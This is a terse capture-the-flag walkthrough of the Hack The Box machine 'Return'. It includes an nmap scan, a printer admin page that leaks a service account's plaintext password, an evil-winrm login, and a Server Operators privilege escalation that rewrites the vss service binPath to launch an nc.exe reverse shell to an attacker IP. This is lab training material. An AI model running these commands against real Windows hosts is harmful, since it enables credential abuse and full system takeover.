




# Nmap 7.94 scan initiated Sat Nov 18 22:29:58 2023 as: nmap -sV -sC -T4 -p- -v -oA Return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.11s latency).
Not shown: 65510 closed tcp ports (reset)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-11-19 03:49:27Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
49679/tcp open msrpc Microsoft Windows RPC
49682/tcp open msrpc Microsoft Windows RPC
49694/tcp open msrpc Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
Gobuster finds settings.php where we can edit settings for a printer

We can put our IP into the printer site and it gives us some creds
1edFg43012!!

evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

using net user svc-printer we can see groups our user is in
We are in the server operator group so we can edit processes with sc.exe
This command edits vss to run our a nc reverse shell
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2
1234"
start a listener
start vss on target machine
we are root
